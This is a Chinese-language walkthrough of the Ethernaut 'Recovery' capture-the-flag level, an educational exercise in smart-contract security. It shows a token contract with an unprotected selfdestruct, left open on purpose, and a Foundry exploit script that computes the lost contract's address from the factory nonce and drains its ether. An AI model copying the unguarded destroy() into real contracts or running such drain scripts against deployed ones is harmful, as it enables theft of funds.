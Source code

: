 # Level 17 - Recovery
## 題目
[Recovery](https://ethernaut.openzeppelin.com/level/0xAF98ab8F2e2B24F42C661ed023237f5B7acAB048)

### 通關條件
合約創建者建立了一個非常簡單的代幣工廠合約。任何人都可以輕鬆創建新的代幣。在部署第一個代幣合約後，創建者發送了 0.001 以太幣以獲得更多代幣。他們從此失去了合約地址。
如果您可以從遺失的合約地址中恢復（或刪除）0.001 以太幣，即完成該挑戰。
### 合約內容
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```
## 解題
題目給了一個創建代幣的工廠合約，並在創建後轉入 0.001 ETH，現在要求你將代幣合約的 0.001 轉回來，但是不知道代幣合約的地址。
看一下代幣的合約 `SimpleToken`，可以轉出的方式有兩種：
1. `transfer(address _to, uint256 _amount)`
2. `function destroy(address payable _to)`  
     關於自毀合約的功能以及特性在 [Level 07 - Force](https://ethernaut.openzeppelin.com/level/0xb6c2Ec883DaAac76D8922519E63f875c2ec65575) 就有考到
     
第 1 種方式只能轉出 `msg.sender` 的代幣，不符合現在的情境。所以只能呼叫合約自毀，為此我們必須找到代幣合約的地址。  
這裡考的是創建合約時的地址生成方式，詳細可以參考以下幾篇，都有清楚的說明：
- [[中文] WTF Solidity极简入门: 24. 在合约中创建新合约](https://github.com/AmazingAng/WTF-Solidity/tree/main/24_Create)
- [[中文] Solidity中通过工厂合约创建合约原理详解](https://learnblockchain.cn/article/8445)

接下來就是計算合約生成地址，address 就是關卡產生的實例地址，nonce 的話則是 1（如果是 EOA 就是從 0 開始計算，合約生成合約是從 1 開始，因為自己生成時 nonce 就已經 +1 了）。  
參數確定後代入地址生成的函數：
  ``` solidity
  address(uint160(uint256(keccak256(RLP_encode(address, nonce)))))
  ```  
  這裡 `RLP_encode()` 在 solidity 中沒有辦法直接呼叫指令計算（應該是有 Library，但我沒有找），我找了別人寫好的 [code](https://stackoverflow.com/a/76195239) 來計算，如果想瞭解 RLP 的計算方式可以參考以下幾篇：
- [Recursive-length prefix (RLP) serialization
](https://ethereum.org/zh-tw/developers/docs/data-structures-and-encoding/rlp/)
- [以太坊的指南针 - RLP编码](https://ethbook.abyteahead.com/ch4/rlp.html)

開始實作攻擊合約
1. 實作 `RLP_encode()`（17-30行）
2. 透過關卡實例地址找到代幣合約地址（8 行）
3. 呼叫代幣合約的自毀功能（12 行）
    
``` solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/17_Recovery.sol";

contract ExploitScript is Script {
    SimpleToken level17 = SimpleToken(payable(computeContractAddress(your_challenge_address, 1)));

    function run() external {
        vm.startBroadcast();
        level17.destroy(payable(msg.sender));
        vm.stopBroadcast();
    }

    // copy https://stackoverflow.com/a/76195239
    function computeContractAddress(address _origin, uint _nonce) public pure returns (address _address) {
        bytes memory data;
        if(_nonce == 0x00)          data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, bytes1(0x80));
        else if(_nonce <= 0x7f)     data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, uint8(_nonce));
        else if(_nonce <= 0xff)     data = abi.encodePacked(bytes1(0xd7), bytes1(0x94), _origin, bytes1(0x81), uint8(_nonce));
        else if(_nonce <= 0xffff)   data = abi.encodePacked(bytes1(0xd8), bytes1(0x94), _origin, bytes1(0x82), uint16(_nonce));
        else if(_nonce <= 0xffffff) data = abi.encodePacked(bytes1(0xd9), bytes1(0x94), _origin, bytes1(0x83), uint24(_nonce));
        else                        data = abi.encodePacked(bytes1(0xda), bytes1(0x94), _origin, bytes1(0x84), uint32(_nonce));
        bytes32 hash = keccak256(data);
        assembly {
            mstore(0, hash)
            _address := mload(0)
        }
    }
}
```
### 另一種找到代幣合約地址的方法
其實除了自己計算合約地址之外，也可以透過 [EtherScan (sepolia)](https://sepolia.etherscan.io) 直接找到，畢竟區塊鏈的特色就是所有行為都會被記錄在鏈上。在 [EtherScan (sepolia)](https://sepolia.etherscan.io) 輸入關卡地址，找到創建合約的那筆交易紀錄並查看接收方的地址，就可以找到代幣合約的地址了  
![Screenshot](https://hackmd.io/_uploads/BkhkmgR2A.png)




